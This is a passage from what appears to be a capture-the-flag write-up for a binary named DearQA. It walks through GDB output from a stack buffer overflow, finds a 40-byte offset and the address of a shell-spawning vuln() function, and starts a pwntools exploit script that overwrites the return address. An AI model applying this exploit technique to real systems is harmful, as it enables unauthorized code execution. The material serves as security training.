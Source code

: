 ```
     0x40072e <main+107>       leave  
 →   0x40072f <main+108>       ret    
[!] Cannot disassemble from $PC
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "DearQA.DearQA", stopped 0x40072f in main (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40072f → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

```
$rsp   : 0x007fffffffde18  →  "BBBBBBBB"
```

As you can see, **the RSP has been overwritten by 8 B's.**

If we **put a valid memory address on RSP instead of 8 B's**, we can let the program to jump to that memory address, and continue the execution of the program.

Well, which memory address we should jump? Previously, we found a function called `vuln()`, which spawns a bash shell. Let's jump to that function!

> Note: Since the ASLR is disabled, the binary contains the exact same memory addresses each time the binary runs.

- Find function `vuln()` memory address:

We can do this in `GDB`!

```
gef➤  info function vuln
All functions matching regular expression "vuln":

Non-debugging symbols:
0x0000000000400686  vuln
```

- Function `vuln()` memory address: `0x0000000000400686`

# Exploit Development

Armed with the above information, we found:

- Where the binary causes segmentation fault
- Found RSP offset: 40
- Found function `vuln()` memory address: `0x0000000000400686`

Now, we can write a simple python script to exploit it:

> Note: **It's a good practice to test buffer overflow locally first.**

**Local debug:**
```py
#!/bin/usr/env python3

from pwn import *

Local = True

if Local == True:
    io = process("./DearQA.DearQA")
else:
    io = remote("10.10.16.159", 5700)

payload = b"A" * 40
payload += p64(0x0000000000400686)
```